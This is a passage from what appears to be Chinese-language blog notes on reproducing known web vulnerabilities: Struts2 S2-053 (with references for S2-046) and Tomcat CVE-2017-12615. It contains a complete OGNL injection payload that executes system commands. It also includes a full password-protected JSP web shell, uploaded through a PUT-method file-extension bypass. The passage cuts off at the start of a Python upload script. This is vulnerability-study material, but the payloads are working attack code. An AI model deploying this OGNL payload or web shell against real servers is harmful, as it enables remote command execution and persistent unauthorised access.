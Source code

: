 参考文章：
[S2-046 远程代码执行漏洞（CVE-2017-5638）](https://github.com/vulhub/vulhub/blob/master/struts2/s2-046/README.zh-cn.md)
[S2-046漏洞调试及初步分析](https://xz.aliyun.com/t/221)
[【重大漏洞预警】Struts 2 远程代码执行漏洞(s2-045s2-046) (含PoC) ](https://www.anquanke.com/post/id/85744)
#### [struts2]s2-053
影响版本: Struts 2.0.1 - Struts 2.3.33, Struts 2.5 - Struts 2.5.10

>Struts2在使用Freemarker模板引擎的时候，同时允许解析OGNL表达式。导致用户输入的数据本身不会被OGNL解析，但由于被Freemarker解析一次后变成离开一个表达式，被OGNL解析第二次，导致任意命令执行漏洞。
<@s.hidden name="redirectUri" value=redirectUri />
<@s.hidden name="redirectUri" value="${redirectUri}" />

Payload:(Payload末尾的换行不能掉)
```java
%{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='id').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(@org.apache.commons.io.IOUtils@toString(#process.getInputStream()))}

```
![](https://img-blog.csdnimg.cn/20201019214845696.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70#pic_center)

参考文章：
[S2-053 远程代码执行漏洞](https://github.com/vulhub/vulhub/blob/master/struts2/s2-053/README.zh-cn.md)
[S2-053 复现分析过程(附POC)
](https://mp.weixin.qq.com/s/4CiKgVn7Y-hWUKRjgECsuA)
### [Tomcat]
#### [Tomcat]CVE-2017-12615
Apache Tomcat 7.0.0 – 7.0.81
Tomcat对文件后缀有一定检测（不能直接写jsp），但我们使用一些文件系统的特性（如Linux下可用`/`）来绕过了限制
![](https://img-blog.csdnimg.cn/20200521225819107.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
测试发现无法上传jsp文件，那么使用`/6.jsp/`试试
写入jsp的shell
```javascript
<%@ page language="java" import="java.util.*,java.io.*" pageEncoding="UTF-8"%><%!public static String excuteCmd(String c) {StringBuilder line = new StringBuilder();try {Process pro = Runtime.getRuntime().exec(c);BufferedReader buf = new BufferedReader(new InputStreamReader(pro.getInputStream()));String temp = null;while ((temp = buf.readLine()) != null) {line.append(temp +"\\n");}buf.close();} catch (Exception e) {line.append(e.getMessage());}return line.toString();}%><%if("bmth".equals(request.getParameter("pwd"))&&!"".equals(request.getParameter("cmd"))){out.println("<pre>"+excuteCmd(request.getParameter("cmd"))+"</pre>");}else{out.println(":-)");}%>
```
![](https://img-blog.csdnimg.cn/20200521230308812.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
上传成功，可执行命令
![](https://img-blog.csdnimg.cn/20200521230416130.png)
使用大神的python脚本上传：
```python
#! -*- coding:utf-8 -*- 
 
import httplib
 
import sys
 
import time
 
```